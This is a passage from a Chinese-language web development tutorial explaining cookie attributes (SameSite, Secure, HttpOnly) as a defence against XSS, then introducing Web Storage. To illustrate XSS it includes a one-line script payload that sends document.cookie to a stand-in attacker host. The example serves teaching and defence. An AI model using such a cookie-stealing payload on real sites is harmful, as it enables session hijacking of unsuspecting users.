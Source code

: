 服务端要求浏览器建立 Cookie 时，可以在请求头里放一些配置声明，修改 Cookie 的使用特性

### **SameSite**

在前段时间，Chrome 更新 80 版本时，将 Cookie 的跨站策略（SameSite）默认设置为了 `Lax`，即仅允许同站或者子站访问 Cookie，而老版本是 `None`，即允许所有跨站 Cookie

这会导致用户访问 `xyz.com` 时，浏览器默认将不会发送 Cookie 给 `taobao.com`，导致第三方 Cookie 失效的问题

要解决的话，在返回请求的 header 里将 SameSite 设置为 `None` 即可

```json
Set-Cookie: userId=123; SameSite=None
```

### **Secure, HttpOnly**

Cookie 还有两个常用属性 `Secure` 和 `HttpOnly`

```json
Set-Cookie: userId=123; SameSite=None; Secure; HttpOnly
```

其中 `Secure` 是只允许 Cookie 在 HTTPS 请求中被使用

而 `HttpOnly` 则用来禁止使用 JS 访问 cookie

```json
ducoment.cookie // 访问被禁止了
```

这样最大的好处是避免了 XSS 攻击

## **XSS 攻击**

比如你在水一个论坛，这个论坛有个 bug：不会对发布内容中的 HTML 标签进行过滤

某一天，一个恶意用户发了个帖子，内容如下：

```html
<script>window.open("atacker.com?cookie=" + document.cookie</script>
```

当你访问这条帖子的内容时，浏览器就会执行 `<script>` 中的代码，导致你的 Cookie 被发送给攻击者，接着攻击者就可以利用你的 Cookie 登录论坛，然后为所欲为了

XSS 攻击在很多情况下，用户甚至不会知道自己被攻击了，比如利用 `<img/>` 的 `src` 属性，就可以做到悄无声息的把用户的信息发给攻击者

而当设置了 `HttpOnly` 后，`ducoment.cookie` 将获取不到 Cookie，攻击者的代码自然就无法生效了

**Cookie 总结**

总而言之，Cookie 在今天的适用场景其实比较有限，当你需要在本地储存数据时，由于安全性和储存空间的问题，一般不推荐使用 Cookie，大部分情况下使用 Web Storage 是个更好的选择

# **Web Storage**

在 2014 年年底发布的 HTML5 标准中，新增了一个 Web Storage 的本地储存方案，其包括

- LocalStorage
- SessionStorage

